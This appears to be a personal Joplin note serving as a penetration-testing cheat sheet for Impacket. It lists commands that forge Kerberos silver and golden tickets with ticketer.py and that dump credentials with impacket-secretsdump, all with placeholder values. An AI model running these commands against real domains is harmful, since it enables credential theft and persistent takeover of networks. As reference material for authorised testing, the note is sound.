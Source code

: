 Impacket

# Generate Silver Tickets with Impacket:
- python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Generate Golden Tickets:
- python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Credential Access with Secretsdump

- impacket-secretsdump username@target-ip -dc-ip target-ip

id: eb745e20b6374133a2d2804218b9618b
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2020-04-10T02:48:08.490Z
updated_time: 2022-01-25T03:40:34.812Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1586486888490
user_created_time: 2020-04-10T02:48:08.490Z
user_updated_time: 2020-04-10T02:48:13.632Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1